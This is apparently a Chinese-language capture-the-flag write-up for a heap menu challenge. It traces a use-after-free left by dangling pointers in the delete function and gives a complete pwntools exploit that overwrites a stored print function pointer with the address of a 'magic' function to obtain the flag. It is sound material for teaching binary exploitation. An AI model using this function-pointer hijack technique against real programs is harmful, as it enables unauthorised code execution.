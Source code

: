 ![](../assets/gitbook/images/image-20250804173926420.png)

一道菜单题，方便起见，分别把1到3的函数称为add，delete，show，首先查看一下add函数

![](../assets/gitbook/images/image-20250804174209285.png)

分析一下不难发现，函数的主要逻辑是遍历notelist链表，如果链表某个节点为空那么就在该处申请0x10大小的堆块，接着将print函数的地址存储到堆块的user data的前8字节区域(前面有0x10大小的chunk_header)，然后输入接下来申请堆块的大小，接着在user data+8字节处再申请一个堆块，最后read将用户输入的内容读入到其中

delete函数

![](../assets/gitbook/images/Snipaste_2025-08-04_17-54-06.png)

可以看到delete函数中free了两次，但都没有将相应的指针清零，构成UAF漏洞可以利用

show函数

![](../assets/gitbook/images/image-20250804175822860.png)

输入堆块索引，调用堆块中存储的print函数

程序还给了magic函数

![](../assets/gitbook/images/image-20250804180235954.png)

以上为主要函数逻辑

利用思路：

可以利用delete函数中的UAF漏洞进行利用，先申请两个大堆块(执行两次add函数，实际上堆块中包含堆块，一共4个)把第一个大堆块称为chunk0，第二个称为chunk1，申请chunk0中堆块时，内容可以随便输入，大小可为0x18,0x20,0x28...，但不能为0x10，否则后面利用UAF的时候就无法申请到print函数所在堆块的位置，不能对其进行修改，同样chunk1也不能申请0x10的堆块

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
```

这道题比较少见，有个def函数，里面禁用了gdb的调试功能，导致无法调试，没办法展示调试过程了。。。

然后再把申请的两个chunk给free掉，此时4个chunk中的两个0x20，两个0x30(包含了chunk_head)全处于释放状态，且位于fastbin中的0x20和0x30链表中

```
delete(1)
delete(0)
```

这里释放的顺序需要注意下，由于fastbin是单项链表，遵循先进后出的原理，所以此时两个0x20大小的free_chunk状态是

chunk0->chunk1

接下来再把两个0x20大小的chunk申请回来，add函数中第一个已经帮我们申请了0x10(chunk0)，只要在申请0x10大小(chunk1)就能申请回来，那么此时的chunk0和chunk1都指向print所在位置，且chunk1可以让我们进行修改，把它改为magic，然后再调用show(1)，执行magic拿到flag

```
add(0x10,p64(magic))
show(1)
```

完整exp

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
delete(1)
delete(0)
add(0x10,p64(magic))
show(1)
p.interactive()
```




